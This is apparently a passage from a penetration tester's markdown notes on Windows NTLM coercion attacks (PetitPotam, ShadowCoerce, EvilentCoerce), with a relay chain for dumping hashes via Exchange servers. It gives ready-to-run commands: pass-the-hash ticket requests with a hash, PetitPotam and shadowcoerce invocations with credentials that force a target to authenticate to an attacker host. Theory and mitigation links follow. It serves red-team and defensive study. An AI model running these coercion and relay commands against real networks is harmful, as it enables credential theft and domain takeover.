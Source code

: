 {% hint style="hint" %}
NTLM Relay DC1 to EXCH1 to get SOCKS ➡️ SOCKS proxy PetitPotam to EX1 as `DC1$` ➡️ NTLM Relay to EXCH2 to dump hashes
{% endhint %}

With Kerberos authentication:

```
$ getTGT.py megacorp.local/snovvcrash -hashes e929e69f7c290222be87968263a9282e:e929e69f7c290222be87968263a9282e -dc-ip 192.168.1.11
$ KRB5CCNAME=`pwd`/snovvcrash.ccache python3 PetitPotam.py -k -no-pass -d megacorp.local -u snovvcrash target.megacorp.local attacker.megacorp.local
```



### Theory

* [https://www.tiraniddo.dev/2021/08/how-windows-firewall-rpc-filter-works.html](https://www.tiraniddo.dev/2021/08/how-windows-firewall-rpc-filter-works.html)
* [https://www.tiraniddo.dev/2021/08/how-to-secure-windows-rpc-server-and.html](https://www.tiraniddo.dev/2021/08/how-to-secure-windows-rpc-server-and.html)
* [https://itm4n.github.io/fuzzing-windows-rpc-rpcview/](https://itm4n.github.io/fuzzing-windows-rpc-rpcview/)
* [https://itm4n.github.io/from-rpcview-to-petitpotam/](https://itm4n.github.io/from-rpcview-to-petitpotam/)
* [https://clearbluejar.github.io/posts/from-ntobjectmanager-to-petitpotam/](https://clearbluejar.github.io/posts/from-ntobjectmanager-to-petitpotam/)



### Mitigation

- [https://kb.cert.org/vuls/id/405600](https://kb.cert.org/vuls/id/405600)
- [https://zeronetworks.com/blog/stopping_lateral_movement_via_the_rpc_firewall/](https://zeronetworks.com/blog/stopping_lateral_movement_via_the_rpc_firewall/)
- [https://github.com/zeronetworks/rpcfirewall](https://github.com/zeronetworks/rpcfirewall)




## ShadowCoerce (MS-FSRVP)

- [https://pentestlaboratories.com/2022/01/11/shadowcoerce/](https://pentestlaboratories.com/2022/01/11/shadowcoerce/)
- [https://github.com/ShutdownRepo/ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce)

```
$ python3 shadowcoerce.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 192.168.1.11
```




## EvilentCoerce (MS-EVEN)

- [https://habr.com/ru/companies/tomhunter/articles/907068/](https://habr.com/ru/companies/tomhunter/articles/907068/)
- [https://github.com/Thunter-HackTeam/EvilentCoerce](https://github.com/Thunter-HackTeam/EvilentCoerce)
